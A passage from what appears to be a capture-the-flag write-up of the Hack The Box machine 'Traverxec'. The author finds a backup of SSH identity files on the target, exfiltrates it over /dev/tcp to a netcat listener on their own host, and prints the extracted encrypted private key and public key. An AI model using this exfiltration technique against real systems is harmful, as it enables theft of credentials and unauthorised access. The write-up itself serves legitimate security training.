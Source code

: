 ```bash
www-data@traverxec:/home/david/public_www$ cd protected-file-area/
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$ cat .htaccess
realm David's Protected File Area. Keep out!
```

### Transfer backup file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec/loot]
└─$ nc -lvnp 443 > backup-ssh-identity-files.tgz
listening on [any] 443 ...
```

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz > /dev/tcp/10.10.14.46/443
```

```bash
connect to [10.10.14.46] from (UNKNOWN) [10.10.10.165] 50664
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec/loot]
└─$ tar -zxvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

┌──(bravosec㉿fsociety)-[~/htb/Traverxec/loot]
└─$ cd home/david/.ssh

┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
...
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----

┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0FvhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec
```
